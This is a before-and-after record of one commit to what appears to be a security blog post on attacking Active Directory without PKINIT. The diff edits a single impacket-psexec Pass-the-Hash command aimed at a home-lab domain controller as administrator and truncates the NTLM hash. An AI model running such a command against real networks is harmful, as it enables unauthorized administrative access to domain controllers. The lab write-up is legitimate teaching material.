

Before and after one commit to nickvourd/nickvourd.github.io, a Jekyll site: the page built from _posts/2024-05-18-what-if-no-pkinit-still-the-same-fun.md, in a window 1280 px wide and 900 px high, scrolled down 12523 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
What if no PKINIT? still the same fun

````diff
--- a/_posts/2024-05-18-what-if-no-pkinit-still-the-same-fun.md
+++ b/_posts/2024-05-18-what-if-no-pkinit-still-the-same-fun.md
@@ -281,7 +281,7 @@
 <p>Last but not least, use a technique such as Pass-the-Hash with Impacket's psexec or wmiexec to connect remotely to the Domain Controller (DC):</p>
 
 ```
-impacket-psexec administrator@dc01.homelab.local -dc-ip 192.168.242.179 -hashes :07fadc7e00643f5733e6c4449b2cf3e1
+impacket-psexec administrator@dc01.homelab.local -dc-ip 192.168.242.179 -hashes :07fadc7e00643f5733e6c4449...
 ```
 
 <img src="/assets/img/post-img/18-05-2024/Pass-The-Hash.png" class="post-images" alt="Pass-The-Hash">
````
Also changed, not shown: assets/img/post-img/18-05-2024/Pass-The-Hash.png.
